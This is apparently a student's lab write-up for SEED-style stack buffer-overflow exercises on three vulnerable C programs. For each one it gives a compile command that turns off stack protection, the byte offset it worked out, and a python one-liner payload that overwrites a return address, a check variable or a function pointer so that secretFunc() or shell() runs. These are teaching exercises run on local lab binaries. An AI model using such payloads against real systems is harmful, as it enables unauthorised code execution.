








# LAB1
**Run virtual environment by Docker** 
>docker run -it --privileged -v "C:\Users\Kiet\Documents\huy\ute\INSE\Security-labs\Software\buffer-overflow:/home/seed/seclabs" img4lab

## 1. File bof1.c

**Summarizing**

    Using 'gets(array)' to exploit a buffer overflow and execute the secretFunc() function.

**Steps**
- Stackframe.

    

- Compile bof1.c
    >gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2
- Find the memory address of the secretFunc() function.

- Find the control transfer memory locations (usually the Return address locations) to insert the memory address of the secretFunc() function, to call and execute the secretFunc() function.
 - According to the stackframes above, the control transfer memory location (return address) is 204 bytes away from the beginning of the array. Insert 204 'a' characters to reach the exact return address memory location, then insert the address of the secretFunc() function to complete.
    >echo $(python -c "print('a'*204 + "\x6b\x84\x04\x08")")|bof1.out

    

## 2. File bof2.c

**Summarizing**

    In this case, the array buf[] has 40 elements, but the fgets() command reads up to 44 elements (fgets(buf, 45, stdin)), with the last element reserved for \0, the null terminator character.
=> We rely on the last 4 elements to modify the check.

**Steps**
- Stackframes.

    

- Compile bof2.c
    >gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2
 - According to the stackframes above, the buf[] array has 40 bytes. Insert 40 'a' characters to reach the exact memory location of the check variable, then insert "xdeadbeef" as required to complete.
    >echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')")| ./bof2.out

    

## 3. File bof3.c

**Summarizing**

    In this case, the buf[] array has 128 bytes, but the fgets() command reads up to 133 bytes.

=> We rely on 4 bytes to overwrite the address of the addition function with the address of the shell function

**Steps**
- Stackframes.

    

- Compile bof3.c
    >gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2

- Find the memory address of the shell() function.

    

   
 - According to the stackframes above, the buf[] array has 128 bytes. Insert 128 'a' characters to reach the exact memory location of the func variable, then insert the address of the shell() function "x0804845b" to execute the shell() function as required to complete.
    >echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')")| ./bof3.out

    

**Old Concepts**
- **Return address** is the address in memory where the program will continue execution after a function ends. When a function is called, the address of the next instruction (after the function call) is saved on the stack. This is the return address.
- **ESP (Extended Stack Pointer)** contains the address of the current top of the stack. When data is pushed onto the stack, ESP decreases, and when data is popped from the stack, ESP increases.
- **EBP (Base Pointer)** When a function is called, the addresses of local variables and parameters are stored at fixed positions relative to EBP. This makes it easy to access these variables throughout the function's execution.
